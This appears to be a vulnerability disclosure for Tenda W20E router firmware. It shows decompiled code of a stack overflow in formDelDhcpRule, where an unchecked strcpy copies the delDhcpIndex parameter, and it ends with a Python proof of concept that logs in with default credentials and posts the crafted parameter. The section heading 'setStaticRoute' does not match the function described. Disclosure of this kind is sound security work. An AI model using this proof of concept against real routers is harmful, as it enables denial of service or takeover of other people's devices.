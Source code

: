 # Tenda W20E

### version

```
V15.11.0.6 （US_W20EV4.0br_V15.11.0.6（1068_1546_841）_CN_TDC）
```

### Firmware

```
https://www.tenda.com.cn/download/detail-2707.html
```



## setStaticRoute

### detail

In function formDelDhcpRule,the content obtained by the program from the parameter "delDhcpIndex" is passed to indexSet.Then the indexSet is directly copied into the indexs stack through the strcpy function.There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void __cdecl formDelDhcpRule(webs_t wp, unsigned __int8 *path, unsigned __int8 *query)
{
  int v3; // r0
  unsigned __int8 msg[32]; // [sp+14h] [bp-A8h] BYREF
  unsigned __int8 indexs[128]; // [sp+34h] [bp-88h] BYREF
  unsigned __int8 *indexSet; // [sp+B4h] [bp-8h]

  indexSet = 0;
  memset(indexs, 0, sizeof(indexs));
  *(_DWORD *)msg = 0;
  *(_DWORD *)&msg[4] = 0;
  *(_DWORD *)&msg[8] = 0;
  *(_DWORD *)&msg[12] = 0;
  *(_DWORD *)&msg[16] = 0;
  *(_DWORD *)&msg[20] = 0;
  *(_DWORD *)&msg[24] = 0;
  *(_DWORD *)&msg[28] = 0;
  indexSet = websGetVar(wp, "delDhcpIndex", "0");
  strcpy((char *)indexs, (const char *)indexSet);
  delete_rules_in_list("dhcps.static.list", indexs, "\t");
  if ( CommitCfm(v3) )
  {
    sprintf((char *)msg, "module_id=%d,op=%d", 3, 6);
    send_msg_to_netctrl(3, msg);
  }
  outputToWebs(wp, "1");
}
```



### poc

```python
import requests

cmd  = b'delDhcpIndex=' + b'1000' 


url = b"http://192.168.0.1/login/Auth"
payload = b"http://192.168.0.1/goform/delDhcpRules/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

